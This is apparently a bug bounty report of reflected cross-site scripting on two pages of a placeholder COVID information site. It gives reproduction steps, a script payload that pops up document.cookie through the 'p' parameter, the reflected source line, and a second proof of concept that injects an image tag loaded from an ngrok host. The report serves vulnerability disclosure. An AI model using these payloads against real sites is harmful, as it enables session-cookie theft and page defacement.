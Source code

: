 Title: 
Reflected XSS

Description:
Hello Team,
I have found Reflected XSS vulnerabilities on:

https://covid.target.com/covid19?p= 
AND
https://covid.target.com/vaccineCentres?p=  


Steps To Reproduce:
1. visit below page: https://covid.target.com/covid19?p= 
2. in the p parameter inject below payload: <script>alert(document.cookie)</script>
3. Notic the pop-up with your cookies


POC1: 
https://covid.target.com/covid19?p=<script>alert(document.cookie)</script>

Source Code:
Line 465: <div id="freemarker_location" hidden><script>alert(document.cookie)</script></div>


POC2:
You can also inject image :
https://covid.target.com/covid19?p=</div><img src="https://111697rt098e.ngrok.io/Hacked2.jpg" width="" height="">  
